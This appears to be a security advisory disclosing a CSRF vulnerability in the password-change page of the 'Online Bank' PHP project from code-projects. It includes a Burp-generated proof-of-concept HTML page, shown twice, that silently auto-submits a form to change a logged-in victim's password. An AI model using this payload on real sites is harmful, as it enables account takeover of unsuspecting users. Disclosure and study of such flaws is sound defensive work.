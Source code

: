 # Summary
There is a CSRF vulnerability in code-project Online Bank (https://code-projects.org/online-bank-in-php-css-javascript-and-mysql-free-download/).

This vulnerability allows attacker to trick users change their passwords unintentionally.

Affected component is `/pass_change_action.php`.

# Details
In `/customer_profile.php`, choose `Change Password/PIN`:
![image](https://github.com/user-attachments/assets/a5d24f46-2f3f-47a8-966f-4afc4703c9c4)

Change password, and use burpsuite to intercept the traffic packets, finding there is no any CSRF protection:
![image](https://github.com/user-attachments/assets/ecb2c8c9-7fce-48ae-be1d-2ddc67a0066a)

PoC.html:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://o-bank:86/pass_change_action.php" method="POST">
      <input type="hidden" name="type" value="password" />
      <input type="hidden" name="old&#95;pwd" value="snow123" />
      <input type="hidden" name="new&#95;pwd" value="123456" />
      <input type="hidden" name="check&#95;pwd" value="123456" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![o-bank-csrf1.gif](https://github.com/N0zoM1z0/Vuln-Search/blob/main/o-bank-csrf1.gif)

# PoC
PoC.html:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://o-bank:86/pass_change_action.php" method="POST">
      <input type="hidden" name="type" value="password" />
      <input type="hidden" name="old&#95;pwd" value="snow123" />
      <input type="hidden" name="new&#95;pwd" value="123456" />
      <input type="hidden" name="check&#95;pwd" value="123456" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![o-bank-csrf1.gif](https://github.com/N0zoM1z0/Vuln-Search/blob/main/o-bank-csrf1.gif)
